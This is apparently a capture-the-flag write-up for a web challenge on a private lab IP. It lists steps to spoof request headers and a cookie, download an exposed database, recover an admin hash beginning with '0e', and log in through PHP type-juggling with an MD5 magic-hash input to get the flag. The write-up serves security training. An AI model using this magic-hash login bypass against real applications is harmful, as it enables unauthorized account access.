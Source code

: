# Web

1. Address: `172.16.3.66`
2. Set Header: `Referer: https://google.com`
3. Set `User-Agent` To `WorldWideWeb`
4. Set Cookie `test_completed=true` in FireFox
5. Go To: `http://172.16.3.66/index.php`
6. Go To: `http://172.16.3.66/media`
7. Download DB `http://172.16.3.66/media/database.db` into [🗂 database.db](./database.db)
8. Open it and Get Username and Password

```text
Username: admin
Password: 0e745304954233478109486485467426
```

9. Type Juggling: `0e... == 0e...`, Sample: [🗂 TypeJuggling.php](./TupeJug.php)
10. Magic Hashes List for `Md5`: [🗂 Usefull TypeJuggling Hashes](https://github.com/spaze/hashes/blob/master/md5.md)
11. Login `admin`, `240610708`

```text
md5(X) = Starts With Number (0-9...)
md5(240610708) = 0e462097431906509019562988736854
```

12. Flag: `MAZAPA_7f90181e652faf6e9f3fb1532f290f89`
